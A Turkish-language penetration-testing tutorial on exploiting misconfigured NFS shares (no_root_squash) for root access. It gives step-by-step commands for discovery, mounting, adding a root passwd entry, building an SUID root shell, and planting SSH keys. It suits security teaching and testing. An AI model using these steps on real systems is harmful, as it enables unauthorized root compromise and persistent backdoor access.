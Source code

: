 ### Misconfigured NFS (Network File System) Yoluyla Privilege Escalation Rehberi

Misconfigured NFS, doğru şekilde yapılandırılmadığında bir sistem üzerinde **privilege escalation (hak yükseltme)** saldırısına yol açabilir. Bu rehberde, adım adım bir NFS zafiyetinden nasıl yararlanılacağını anlatacağım.

---

## 1. **NFS Nedir ve Zafiyetin Temeli?**

NFS, dosya paylaşımı için kullanılan bir protokoldür. Bir sistem, NFS aracılığıyla bir dizini diğer sistemlerle paylaşır. Yanlış yapılandırıldığında aşağıdaki riskleri oluşturabilir:

- **No_root_squash**: Uzak bir istemcinin **root** yetkileriyle işlem yapmasına izin verir.
- **Anon UID/GID Mapping**: Dosya izinlerinin istemcideki kullanıcı ve grup kimlikleriyle eşleşmesine izin verir.
- **Wildcards in Exports**: Yanlış wildcard kullanımı, beklenmeyen istemcilere erişim izni verebilir.

---

## 2. **Vulnerable NFS Mount Noktasının Keşfi**

### 2.1. **Nmap ile Açık Port Tarama**
```bash
nmap -sV -p 111 --script=nfs* <TARGET_IP>
```
Bu komut, hedefteki **NFS (RPC Bind)** servisini keşfetmenizi sağlar.

---

### 2.2. **Mount Noktalarını Listeleme**
NFS paylaşım noktalarını görmek için:
```bash
showmount -e <TARGET_IP>
```

#### Çıktı Örneği:
```plaintext
Export list for 192.168.1.100:
/shared *(rw,no_root_squash)
```

- **rw**: Okuma-yazma izni verilmiş.
- **no_root_squash**: Root yetkileri istemci tarafında korunur.
- `*`: Herkese açık paylaşım.

---

## 3. **NFS Paylaşımını Mount Etme**

Erişilebilir NFS paylaşımını kendi sisteminize mount edin:
```bash
sudo mount -t nfs <TARGET_IP>:/shared /mnt/nfs
```

Mount edilen dizine gidin ve içerikleri kontrol edin:
```bash
ls -la /mnt/nfs
```

---

## 4. **Hak Yükseltme Saldırısı**

### 4.1. **UID/GID Tabanlı Erişim (no_root_squash)**

Eğer paylaşım **no_root_squash** ile yapılandırılmışsa, uzaktaki root kullanıcısı, NFS paylaşımlı dizinlerde işlem yapabilir.

#### 4.1.1. **Root Yetkisiyle Dosya Yazma**
Kendi sisteminizde **UID=0** ve **GID=0** bir kullanıcı oluşturun:
```bash
sudo su
useradd -u 0 -g 0 attacker
su attacker
```

Şimdi NFS mount noktasında root yetkisiyle işlem yapabilirsiniz:
```bash
echo "attacker:x:0:0::/root:/bin/bash" >> /mnt/nfs/etc/passwd
```

Bu işlem, hedef sistemde bir `attacker` kullanıcısını root yetkileriyle oluşturur.

---

### 4.2. **SUID Dosyası Yaratma**
Bir **SUID binary** oluşturarak shell elde edebilirsiniz:
```bash
echo -e '#include <stdio.h>\n#include <stdlib.h>\nint main() { setuid(0); system("/bin/bash"); return 0; }' > /mnt/nfs/suid.c
gcc /mnt/nfs/suid.c -o /mnt/nfs/suid_shell
chmod +s /mnt/nfs/suid_shell
```

Hedef sistemde bu dosyayı çalıştırarak root yetkisi kazanabilirsiniz:
```bash
/mnt/nfs/suid_shell
```

---

### 4.3. **SSH Anahtarı Yerleştirme**
Eğer hedefte SSH root erişimi açıksa, root kullanıcısının `~/.ssh/authorized_keys` dosyasını değiştirebilirsiniz:
```bash
mkdir -p /mnt/nfs/root/.ssh
echo "YOUR_PUBLIC_SSH_KEY" > /mnt/nfs/root/.ssh/authorized_keys
```

Daha sonra, hedefe root kullanıcısı olarak SSH ile bağlanabilirsiniz:
```bash
ssh -i YOUR_PRIVATE_SSH_KEY root@<TARGET_IP>
```

---
